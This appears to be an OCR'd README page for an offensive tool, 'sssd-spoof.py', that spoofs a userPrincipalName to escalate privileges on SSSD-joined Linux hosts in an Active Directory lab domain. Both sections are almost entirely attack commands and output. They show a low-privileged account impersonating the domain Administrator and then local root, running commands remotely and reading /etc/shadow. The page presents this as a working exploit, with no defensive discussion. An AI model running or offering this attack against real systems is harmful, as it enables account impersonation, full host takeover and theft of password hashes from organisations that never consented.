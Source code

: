 ```
~$ sssd-spoof.py 'mercury.local'/'gatari':'P@ssw0rd'@L-PROD-WEB001.mercury.local --target-user 'svc_sql' --target-password 'P@ssw0rd123' --upn 'Administrator@mercury.local' -x 'whoami && hostname && id'
[-] no KDC host specified, make sure you have a valid krb5.conf
[-] continuing with default (/etc/krb5.conf)
[*] Impacket v0.13.0.dev0+20250713.182712.930296c - Copyright Fortra, LLC and its affiliated companies 

[*] LDAP Bind => mercury.local\gatari @ ldap://mercury.local:389
[*] OK: userPrincipalName svc_sql@mercury.local => Administrator@mercury.local
[*] saved TGT to Administrator\@mercury.local.ccache
[*] trying: L-PROD-WEB001.mercury.local
[*] pwned!!

administrator@mercury.local
L-PROD-WEB001.mercury.local
uid=7000500(administrator@mercury.local) gid=7000513(domain users@mercury.local) groups=7000513(domain users@mercury.local),7000512(domain admins@mercury.local),7000518(schema admins@mercury.local),7000519(enterprise admins@mercury.local),7000520(group policy creator owners@mercury.local),7000572(denied rodc password replication group@mercury.local)

[*] connection closed.

[*] LDAP Bind => mercury.local\gatari @ ldap://mercury.local:389
[*] OK: userPrincipalName Administrator@mercury.local => svc_sql@mercury.local
```

## UPN Spoofing (Local Users)

It is also possible to spoof local users by specifying the `--upn` option with a local user name, this is far more powerful.

```
~$ sssd-spoof.py 'mercury.local'/'gatari':'P@ssw0rd'@L-PROD-WEB001.mercury.local --target-user 'svc_sql' --target-password 'P@ssw0rd123' --upn 'root' -x 'id && tail -n 3 /etc/shadow'
[-] no KDC host specified, make sure you have a valid krb5.conf
[-] continuing with default (/etc/krb5.conf)
[*] Impacket v0.13.0.dev0+20250713.182712.930296c - Copyright Fortra, LLC and its affiliated companies 

[*] LDAP Bind => mercury.local\gatari @ ldap://mercury.local:389
[*] OK: userPrincipalName svc_sql@mercury.local => root
[*] saved TGT to root.ccache
[*] trying: L-PROD-WEB001.mercury.local
[*] pwned!!

uid=0(root) gid=0(root) groups=0(root)
sshd:*:20093:0:99999:7:::
lxd:!:20093::::::
sssd:*:20279:0:99999:7:::

[*] connection closed.

[*] LDAP Bind => mercury.local\gatari @ ldap://mercury.local:389
[*] OK: userPrincipalName root => svc_sql@mercury.local
```
